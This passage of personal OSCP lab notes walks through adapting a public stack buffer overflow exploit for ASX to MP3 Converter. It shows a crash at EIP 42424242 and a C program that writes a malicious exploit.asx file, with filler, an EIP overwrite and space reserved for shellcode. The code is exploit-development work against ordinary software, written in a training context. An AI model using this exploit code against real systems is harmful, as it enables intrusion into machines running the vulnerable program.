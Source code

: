 The result is access violation at EIP 42424242
![854126dca3954b70a66cbef5361fca0e.png](:/cb7f9c5bc67d4141aefc90ffac57f446)
![6341c6f704a37beae52d875e08c246e9.png](:/4c14716715ca4a988e0f70f80bd89e1c)


### Locate space for our shellcode.
First we will try the technique of just increasing our buffer. We will have 376 bytes to play with. Here is the script that shows the space for a placeholder as D's.
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 4_locate_shellcode_space.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /*  msf-pattern_create -l 250 
        filler = 241 
        eip = 4 
        pad = 4 
        placeholder = 376 */
    char pattern[] =    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD"
                        "DDDDDDDDDDDDDDDDDDDDDDDDD";

    char *overwrite_offset = malloc(625);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```
